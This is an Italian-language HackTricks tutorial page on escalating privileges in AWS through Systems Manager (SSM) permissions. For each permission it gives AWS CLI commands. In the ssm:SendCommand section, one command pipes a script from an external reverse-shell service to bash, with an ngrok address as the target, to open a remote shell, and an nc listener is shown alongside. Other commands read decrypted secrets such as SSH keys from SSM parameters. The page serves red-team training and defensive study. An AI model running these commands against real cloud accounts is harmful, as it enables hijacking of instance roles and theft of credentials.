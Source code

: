 # AWS - Escalazione dei privilegi SSM

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**Gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## SSM

Per ulteriori informazioni su SSM, controlla:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un attaccante con il permesso **`ssm:SendCommand`** può **eseguire comandi nelle istanze** in esecuzione sull'Agente Amazon SSM e **compromettere il ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
In caso si stia utilizzando questa tecnica per escalare i privilegi all'interno di un'istanza EC2 già compromessa, è possibile catturare la reverse shell localmente con:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 collegati alle istanze in esecuzione con agenti SSM in esecuzione.

### `ssm:StartSession`

Un attaccante con il permesso **`ssm:StartSession`** può **avviare una sessione simile a SSH nelle istanze** in esecuzione con l'Agente Amazon SSM e **compromettere il Ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Per avviare una sessione è necessario avere installato il **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impatto Potenziale:** Privesc diretta ai ruoli IAM EC2 collegati alle istanze in esecuzione con agenti SSM in esecuzione.

#### Privesc su ECS

Quando le **attività ECS** vengono eseguite con **`ExecuteCommand` abilitato**, gli utenti con le autorizzazioni sufficienti possono utilizzare `ecs execute-command` per **eseguire un comando** all'interno del container.\
Secondo [**la documentazione**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) ciò avviene creando un canale sicuro tra il dispositivo utilizzato per avviare il comando "_exec_" e il container di destinazione con SSM Session Manager. (Plugin SSM Session Manager necessario affinché ciò funzioni)\
Pertanto, gli utenti con `ssm:StartSession` saranno in grado di **ottenere una shell all'interno delle attività ECS** con quell'opzione abilitata semplicemente eseguendo:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impatto Potenziale:** Privesc diretto ai ruoli IAM `ECS` collegati ai task in esecuzione con `ExecuteCommand` abilitato.

### `ssm:ResumeSession`

Un attaccante con il permesso **`ssm:ResumeSession`** può riavviare una sessione simile a SSH nelle istanze in esecuzione dell'Agente Amazon SSM con uno stato di sessione SSM **disconnesso** e compromettere il ruolo IAM in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 collegati alle istanze in esecuzione con agenti SSM in esecuzione e sessioni disconnesse.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un attaccante con i permessi menzionati sarà in grado di elencare i **parametri SSM** e **leggerli in chiaro**. In questi parametri è possibile trovare frequentemente **informazioni sensibili** come chiavi SSH o chiavi API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno dei parametri.

### `ssm:ListCommands`

Un attaccante con questa autorizzazione può elencare tutti i **comandi** inviati e sperabilmente trovare **informazioni sensibili** su di essi.
```
aws ssm list-commands
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno delle righe di comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un attaccante con queste autorizzazioni può elencare tutti i **comandi** inviati e **leggere l'output** generato, sperabilmente trovando **informazioni sensibili** al suo interno.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno dell'output delle righe di comando.

### Codebuild

È anche possibile utilizzare SSM per accedere a un progetto codebuild in fase di costruzione:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
